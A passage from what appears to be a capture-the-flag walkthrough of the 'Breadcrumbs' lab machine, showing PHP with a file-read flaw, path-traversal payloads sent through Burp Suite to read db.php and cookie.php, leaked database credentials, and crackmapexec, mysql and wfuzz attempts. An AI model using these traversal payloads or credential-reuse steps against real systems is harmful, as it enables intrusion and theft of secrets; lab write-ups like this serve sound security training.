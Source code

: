 ``` bash
        $stmt->execute();
        $res = $stmt->get_result();
        $out = mysqli_fetch_all($res,MYSQLI_ASSOC);
    }

    elseif($_POST['method'] == 1){
        $out = file_get_contents('../books/'.$_POST['book']);
    }

    else{
        $out = false;
    }

    echo json_encode($out);
}"

# On burpsuite looking for the db file
book=../db/db.php&method=1
#edit the php file in nvim -> %s/\\r/\r/g -> %s/\\\//\//g
"<?php

$host=\"localhost\";
$port=3306;
$user=\"bread\";
$password=\"jUli901\";
$dbname=\"bread\";

$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());
?>
"

```

We use crackmapexec to validate these credentials 
``` bash
❯ crackmapexec smb 10.10.10.228 -u 'bread' -p 'jUli901' -d 'WORGROUP.local'
SMB         10.10.10.228    445    BREADCRUMBS      [-] WORGROUP.local\bread:jUli901 STATUS_LOGON_FAILURE 
```

This credentials aren't valid for the system, so we try  connect to mysql
``` bash
❯ mysql -u 'bread' -p -h 10.10.10.228
mysql: Deprecated program name. It will be removed in a future release, use '/usr/bin/mariadb' instead
Enter password: 
ERROR 1130 (HY000): Host '10.10.14.5' is not allowed to connect to this MariaDB server
```

However, we are not authorized to connect to this server.

Taking back to the json web token, we  try to find the secret  taking advantage of the local file inclusion found before
``` bash
# Fuzz http://10.10.10.228/portal
wfuzz --hc=404 -w /wordlist http://10.10.10.228/portal/FUZZ
wfuzz --hc=404 -w /wordlist http://10.10.10.228/portal/FUZZ.php

# found uploads, includes, php, cookie.php

# using burpsuite and path traversal
book=../portal/cookie.php&method=1

#edit the php file in nvim -> %s/\\r/\r/g -> %s/\\\//\//g

```